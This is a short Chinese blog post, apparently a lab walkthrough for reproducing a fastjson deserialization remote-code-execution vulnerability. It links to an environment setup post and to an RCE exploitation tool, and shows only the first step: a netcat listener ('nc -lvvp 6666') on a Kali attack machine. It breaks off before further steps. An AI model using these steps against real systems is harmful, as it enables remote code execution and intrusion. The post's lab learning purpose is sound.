 # 原创
：  35-4 fastjson漏洞复现

# 35-4 fastjson漏洞复现

 环境准备：[35-2 fastjson反序列化漏洞介绍 及漏洞环境搭建-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/137605174) 

fastjson_tool.jar下载：[fastjson_rce_tool: fastjson命令执行自动化利用工具， remote code execute，JNDI服务利用工具 RMI/LDAP (gitee.com)](https://gitee.com/zhao-yuanadmin/fastjson_rce_tool?_from=gitee_search)

#### 一、攻击机kali开启nc监听6666端口（或其他端口也行，只要不重复就行）

```
nc -lvvp 6666
```

具体解释如下：
